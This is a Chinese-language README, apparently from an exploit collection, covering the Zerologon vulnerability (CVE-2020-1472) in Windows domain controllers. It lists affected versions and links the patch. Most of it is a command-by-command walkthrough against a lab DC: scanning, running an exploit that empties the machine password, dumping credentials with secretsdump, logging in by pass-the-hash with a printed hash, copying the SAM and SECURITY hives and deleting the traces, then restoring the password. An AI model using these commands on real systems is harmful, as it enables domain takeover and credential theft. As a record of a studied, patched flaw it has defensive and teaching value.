 ## CVE-2020-1472

#### 描述

攻击者使用Netlogon远程协议（MS-NRPC）建立与域控制器的易受攻击的Netlogon安全通道连接时，将存在特权提升漏洞。攻击者可以利用漏洞进行远程修改密码等操作

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| :------------------ | :--------------- | ------- | ------ | ------------------ |
| Windows Server 2008 | x64              | R2      | SP1    | &#10004; |
| Windows Server 2012 |                  |         |        |                    |
| Windows Server 2012 |                  | R2      |        |                    |
| Windows Server 2016 |                  |         |        |                    |
| Windows Server 2019 |                  |         |        |                    |
| Windows Server      |                  | 1903    |        |                    |
| Windows Server      |                  | 1909    |        |                    |
| Windows Server      |                  | 2004    |        |                    |
| Windows Server      |                  | 20H2    |        |                    |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1472
```

#### 利用方式

> 注意：EXP脚本会重置域控机器的密码！！！不要瞎鸡儿乱用！！！！！！！！

测试机器Windows Server 2008 R2 SP1 X64 ，并且设置环境为域控机器

![image-20201002201920794](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_dc-server.png?raw=true)

由上图可知：

- 域为->ascotbe.com
- 计算机名为->dc
- 域控ip->192.168.183.171

使用前环境配置，需要Python3.7+的版本，如果之前有安装过`impacket`的python包的话（比如kali）需要卸载了在重新安装`0.9.21`这个版本的包，快捷语句`python3 -m pip install git+https://github.com/SecureAuthCorp/impacket`，下面是通用方法

```
python3 -m pip install -r Kernelhub.txt
#如果嫌弃下载慢项目上有下载好的解压后即可用
git clone --depth=1 https://github.com/SecureAuthCorp/impacket
```

> 扫描脚本

该脚本用于测试机器是否存在漏洞

```
#Usage: CVE-2020-1472_Scan.py <dc-name> <dc-ip>
python3 CVE-2020-1472_Scan.py dc 192.168.183.171
```

![image-20201002203037104](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_scan.png?raw=true)

> 利用脚本

该脚本会使用后会把密码重置为空！！乱用容易对照成损失！！

```
#Usage: CVE-2020-1472_Exploit.py <dc-name> <dc-ip>
python3 CVE-2020-1472_Exploit.py dc 192.168.183.171
```

![image-20201002204223509](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_exp.png?raw=true)

接着进入下载好的`impacket`项目，使用空密码登录

```
cd impacket/examples/
#Usage: secretsdump.py <dc>/<dc-name>\$@<dc-ip>
python3 secretsdump.py ascotbe.com/dc\$@192.168.183.171 -no-pass
```

![image-20201002203751057](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_secretsdump.png?raw=true)

接着利用hash进行登录

```
#Usage: wmiexec.py -hashes <user-hash> <dc>/<user-name>@<dc-ip>
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:45280efa2300182b4f7fdc2cee182149  ascotbe.com/administrator@192.168.183.171
```

![image-20201002204817764](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_wmiexec.png?raw=true)

> 还原密码

保存密码后下载到本地，接着删除域控上的文件

```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del system.save
del sam.save
del security.save
```

![image-20201002205958192](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_hash.png?raw=true)

接着进行解密

```
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

![image-20201002210258903](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_decrypt_hash.png?raw=true)

可以看到这是之前修改之前的密码，接着回到桌面使用脚本恢复密码

```
#Usage: CVE-2020-1472_RestoreOriginalPassword.py <dc-name> <dc-ip> <dc-original-hash>
python3 CVE-2020-1472_RestoreOriginalPassword.py dc 192.168.183.171 d4ac5a73fd3f13dfd9d6de036a9e99a2
```

![image-20201002212122966](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_restore_original_password.png?raw=true)

#### 分析文章
- https://xz.aliyun.com/t/8367
- https://www.freebuf.com/articles/system/249860.html
- https://www.freebuf.com/vuls/249813.html
- https://cert.360.cn/report/detail?id=2e904ef9ac96834a3dd7fc058cea4fe5

#### 项目来源

- 扫描脚本:[SecuraBV](https://github.com/SecuraBV/CVE-2020-1472)
- 利用脚本:[dirkjanm](https://github.com/dirkjanm/CVE-2020-1472)
- 恢复脚本:[risksense](https://github.com/risksense/zerologon)